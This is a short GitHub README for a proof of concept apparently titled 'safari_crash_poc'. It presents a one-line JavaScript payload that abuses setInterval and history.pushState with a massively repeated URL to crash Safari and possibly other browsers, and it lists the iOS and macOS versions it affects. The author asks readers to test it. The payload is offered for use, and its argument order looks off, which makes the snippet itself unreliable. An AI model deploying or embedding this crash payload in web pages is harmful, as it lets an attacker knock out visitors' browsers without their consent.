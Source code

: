 # safari_crash_poc
This is a POC of my bug that exploits "setInterval" and "history.pushState" to crash possibly multiple browsers, tested on OS X 10.11.6. (Please test it, I need to get an idea of support. I'll patch in your Twitter handle or give you a 3 character available GitHub. )
```javascript
setInterval(350,function f() {history.pushState(0,0,location+"af6.github.io/crash/".repeat(100000));});
```
# credits
me (duh)
# support
iOS 10

OS X 10.11.6
# probable support
iOS 11.X.X

iOS 9.X.X

macOS 10.12.X

macOS 10.13.X
